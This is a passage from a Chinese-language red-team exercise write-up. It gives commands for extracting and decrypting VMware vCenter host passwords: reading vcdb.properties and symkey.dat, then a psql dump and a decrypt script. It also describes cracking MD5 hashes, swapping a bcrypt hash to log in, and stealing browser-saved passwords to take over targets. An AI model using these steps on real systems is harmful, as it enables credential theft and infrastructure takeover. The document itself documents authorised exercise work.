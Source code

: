     
    
    /usr/lib/vmware-vmdir/bin/vdcadmintool

不重置密码获取密码  

https://github.com/shmilylty/vhost_password_decrypt

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #获取vc用户的密码  cat /etc/vmware-vpx/vcdb.properties    
    #把加密后的密码单独拿出来，  psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip\_address,user\_name,password from vpx\_host;" > password.enc  #改成这种格式\*  H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==\*  zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==\*  Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==\*  R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==    
    #拿解密key  cat /etc/vmware-vpx/ssl/symkey.dat  Windows：C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\ssl\\symkey.dat  Linux：/etc/vmware-vpx/ssl/symkey.dat    
    #破解  python decrypt.py symkey.dat password.enc pass.txt

然后就可以登入web控制台了  

![](https://gitee.com/fuli009/images/raw/master/public/20220926092130.png)![](https://gitee.com/fuli009/images/raw/master/public/20220926092131.png)

  

 **云管平台**

通过运维机的xshell查找历史记录拿下了主备数据库，然后执行sql语句成功获取出了云管平台的hash

![](https://gitee.com/fuli009/images/raw/master/public/20220926092133.png)

  

到cmd5上进行解密，一块钱拿下云管平台很划算![](https://gitee.com/fuli009/images/raw/master/public/20220926092134.png)![](https://gitee.com/fuli009/images/raw/master/public/20220926092136.png)

  

但某些系统加密方式不是使用md5的，比如之前碰到的一些系统使用的是Bcrypt加密方式，像这种不可逆的加密方式可以通过替换hash进行登录

  * 

    
    
    $2a$10$z0hHT9rltH59VvcazrSzOuVDNr05shwja1aZmD8ctzDbuNNvdpNIS

![](https://gitee.com/fuli009/images/raw/master/public/20220926092137.png)![](https://gitee.com/fuli009/images/raw/master/public/20220926092138.png)

  

 **官网**

当我们拿到集权设备后，一般里面会有靶标系统或核心系统，这些分数是很高的，这次演练某目标就是通过云管平台登录官网机器，抓取浏览器密码成功获取后台密码，成功拿下官网控制权

![](https://gitee.com/fuli009/images/raw/master/public/20220926092140.png)

  

 **gitlab仓库**

根据评分规则刷完路径分之后，可以根据目标性质找一些核心关键的系统跟裁判battle，像这种存有大量代码的仓库可以作为重大成果进行提交
